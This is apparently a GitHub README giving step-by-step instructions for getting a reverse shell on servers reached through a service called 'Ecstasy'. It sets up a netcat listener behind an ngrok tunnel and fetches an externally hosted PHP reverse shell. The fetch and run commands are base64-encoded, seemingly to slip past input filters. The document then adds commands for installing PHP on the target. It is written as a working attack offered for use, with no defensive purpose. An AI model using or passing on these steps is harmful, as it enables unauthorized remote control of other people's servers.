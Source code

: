 # Simplest Reverse Shell Tutorial (Supports Some Linux and Some Windows Servers)

## On Your Own Computer
1. **Get Netcat**  
   - For Windows: [Download Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip)  
   - For Linux or macOS: Find and install the appropriate files for your OS.

2. **Get Ngrok and Set Up**  
   - [Download and setup Ngrok](https://ngrok.com)

3. **Start Ngrok**  
```ngrok tcp 4444```


4. **Start Netcat**  
```nc -lvp 4444```


5. **Download and Edit PHP File**
   - [Download the PHP file](https://files.catbox.moe/s69sex.php) and edit the IP and port to be the Ngrok one.
   - Reupload the edited file to [catbox.moe](https://catbox.moe).

6. **Convert URL to Base64**
   - Use [base64encode.org](https://www.base64encode.org/) to convert the URL to Base64.

## In Game (run under the shell command)
7. **Copy and Paste the Command into Ecstasy**
   - While logged into Ecstasy, use the command below, replacing `{BASE64 GOES HERE}` with the Base64 link:
```curl -O $(echo "{BASE64 GOES HERE}" | base64 --decode)```


8. **Encode Filename and Extension to Base64**
   - Encode the filename and extension that catbox.moe gives in the URL to Base64.

9. **Run the PHP Script**
 ```php $(echo "{FILE NAME BASE64}" | base64 --decode)```
 - If there are errors, the server might not have PHP installed. See below for installation instructions.

## Install PHP on Linux Servers

**To get the distro, use the command:**
```cat /etc/os-release```

### Ubuntu/Debian
```apt install php```

### Fedora
```dnf install php -y```

### Arch
```pacman -S php```


# Duck Notes
![info](https://r2.e-z.host/1aef6b94-3653-4c51-8fef-6587df7580f5/qos28fmh.png)
